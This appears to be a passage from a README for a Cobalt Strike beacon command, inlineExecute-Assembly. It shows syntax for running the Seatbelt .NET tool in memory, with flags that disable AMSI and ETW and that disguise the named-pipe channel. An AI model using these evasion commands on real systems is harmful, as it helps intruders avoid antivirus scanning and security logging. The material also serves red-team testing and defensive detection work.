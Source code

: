 ### Syntax

```
beacon> inlineExecute-Assembly --dotnetassembly /root/Desktop/Seatbelt.exe --assemblyargs AntiVirus AppLocker
```

### Use Case

> *Execute .NET assembly with arguments and disable AMSI*

### Syntax

```
beacon> inlineExecute-Assembly --dotnetassembly /root/Desktop/Seatbelt.exe --assemblyargs AntiVirus AppLocker --amsi
```

### Use Case

> *Execute .NET assembly with arguments and disable ETW*

### Syntax

```
beacon> inlineExecute-Assembly --dotnetassembly /root/Desktop/Seatbelt.exe --assemblyargs AntiVirus AppLocker --etw
```

### Use Case

> *Execute .NET assembly with arguments and redirect output via mailslots instead of the default named pipe*

### Syntax

```
beacon> inlineExecute-Assembly --dotnetassembly /root/Desktop/Seatbelt.exe --mailslot
```

### Use Case

> *Execute .NET assembly with arguments and change the default named pipe name set in the aggressor script*

### Syntax

```
beacon> inlineExecute-Assembly --dotnetassembly /root/Desktop/Seatbelt.exe --pipe forRealLegit
```

### Use Case

> *Execute .NET assembly and change the default app domain set in the aggressor script*
